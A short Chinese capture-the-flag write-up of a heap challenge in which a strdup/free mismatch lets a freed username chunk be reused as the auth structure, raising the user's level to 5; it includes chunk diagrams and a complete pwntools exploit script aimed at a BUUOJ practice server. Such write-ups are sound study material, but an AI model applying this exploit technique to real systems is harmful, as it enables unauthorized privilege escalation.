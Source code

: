 堆题

感天动地，我居然自己做出了一道堆题😭。

每次`login`的时候，chunk布局如下所示（假设输入用户名长度<=0x18）：
```
------------------
|       |  0x21 |  allocated
-----------------
|str_ptr| level |
------------------
|       |  0x21 |  allocated
-----------------
| str content.. |
------------------
    top chunk
```

这题的漏洞点在于，`malloc`与`free`的次数不匹配。程序中写入用户名时使用了`strdup`，**这个函数是隐含着`malloc`的调用的，而`reset`时又只进行了一次`free`调用。所以，正常的一次`login`与`reset`操作之后，chunk与fastbin的情况为：
```
------------------
|       |  0x21 |  allocated
-----------------
|str_ptr| level |
------------------
|       |  0x21 |  free
-----------------
| str content.. |
------------------
    top chunk

===================
fastbin: -> -----------------
            |       |  0x21 | 
            -----------------
            | str content.. |
            ------------------
```
所以这时再进行`login`，得到的就是写入了用户名内容的chunk，这是我们可控的。而代表auth-level的值就位于`ptr+0x8`，我们只要在第一次`login`的时候，把该内容写为`\x05\x00\x00\x00\x00\x00\x00\x00`，然后`reset`，再`login`即可。

exp
```python
from pwn import *
context(os = 'linux', arch = 'amd64')
# context.log_level = 'debug'

p = remote('node4.buuoj.cn', 29378)

def get_flag():
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'get-flag')

def login(content: bytes):
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'login ' + content)

def reset():
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'reset')

payload = b'a'*0x8 + b'\x05'.ljust(8, b'\x00')

login(payload)
reset()
login(b'test')
get_flag()
p.interactive()
```